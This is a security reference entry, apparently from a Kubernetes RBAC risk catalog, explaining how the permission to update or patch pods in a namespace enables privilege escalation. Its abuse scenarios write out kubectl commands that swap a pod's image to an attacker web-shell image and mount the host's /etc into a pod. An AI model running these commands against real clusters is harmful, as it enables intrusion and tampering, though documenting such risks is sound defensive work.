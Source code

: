 ```yaml
---
id: 1009
title: "Update/Patch pods in a namespace"
description: "Allows modifying existing pods within a specific namespace. This can be used to escalate privileges by changing a pod's configuration to run with higher permissions, execute arbitrary code, or tamper with application behavior within that namespace."
category: Elevation of Privilege
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field         | Value                                                                                              |
| ------------- | -------------------------------------------------------------------------------------------------- |
| ID            | 1009                                                                                               |
| Name          | Update/Patch pods in a namespace                                                                   |
| Risk Category | Elevation of Privilege                                                                             |
| Risk Level    | {{< risk High >}}                                                                                  |
| Role Type     | Role                                                                                               |
| API Groups    | core                                                                                               |
| Resources     | pods                                                                                               |
| Verbs         | update, patch                                                                                      |
| Tags          | {{< tag "PotentialPrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadExecution" >}} |

## Description

Allows modifying existing pods within a specific namespace. This can be used to escalate privileges by changing a pod's configuration to run with higher permissions, execute arbitrary code, or tamper with application behavior within that namespace.

## Abuse Scenarios

1. Patch a running pod in the namespace to change its container image.

```bash
kubectl set image pod/<pod-name> <container-name>=<malicious-image> -n <namespace>
# Example: kubectl set image pod/my-web-app web=attacker/web-shell -n dev

```

2. Patch a running pod to add a hostPath volume mount (if not blocked by PSP/PSA).

```bash
kubectl patch pod <pod-name> -n <namespace> --type='json' -p='[{"op": "add", "path": "/spec/volumes/-", "value": {"name": "host-path-vol", "hostPath": {"path": "/etc"}}}, {"op": "add", "path": "/spec/containers/0/volumeMounts/-", "value": {"name": "host-path-vol", "mountPath": "/mnt/host-etc"}}]'
# Example: kubectl patch pod my-app -n default --type='json' -p='[{"op": "add", "path": "/spec/volumes/-", "value": {"name": "host-path-vol", "hostPath": {"path": "/etc"}}}, {"op": "add", "path": "/spec/containers/0/volumeMounts/-", "value": {"name": "host-path-vol", "mountPath": "/mnt/host-etc"}}]'

```
